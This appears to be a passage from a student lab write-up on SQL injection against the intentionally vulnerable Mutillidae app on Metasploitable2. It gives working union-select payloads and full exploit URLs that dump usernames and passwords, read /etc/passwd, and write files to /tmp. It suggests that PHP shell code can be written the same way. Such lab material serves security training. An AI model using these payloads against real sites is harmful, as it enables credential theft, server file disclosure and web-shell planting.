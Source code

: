 

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![8 27](https://github.com/keerthanaa10/sqlinjection/assets/132996371/1a1c103e-11d0-49f3-a764-dd523e5e23ea)



## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![8 28](https://github.com/keerthanaa10/sqlinjection/assets/132996371/593c64cc-ff19-4484-834b-c4221b1cb918)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
